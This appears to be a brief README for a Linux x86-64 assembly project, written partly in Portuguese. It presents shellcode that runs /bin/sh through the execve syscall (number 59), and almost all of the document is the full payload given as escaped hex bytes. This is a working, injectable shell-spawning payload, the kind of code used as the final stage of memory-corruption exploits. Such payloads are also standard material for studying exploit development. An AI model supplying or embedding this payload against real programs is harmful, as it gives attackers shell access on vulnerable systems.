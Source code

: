 ASM-64bit
=========
Shellcode develoop Linux 64 bit
executando uma bin/sh com a syscall 59
Payload:
********************************************************************************
\x48\x31\xd2\x48\x89\xd6\x48\xbf\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe7\x08
\x48\xc1\xef\x08\x57\x48\x89\xe7\x48\xb8\x3b\x11\x11\x11\x11\x11\x11\x11\x48\xc1
\xe0\x38\x48\xc1\xe8\x38\x0f\x05
********************************************************************************

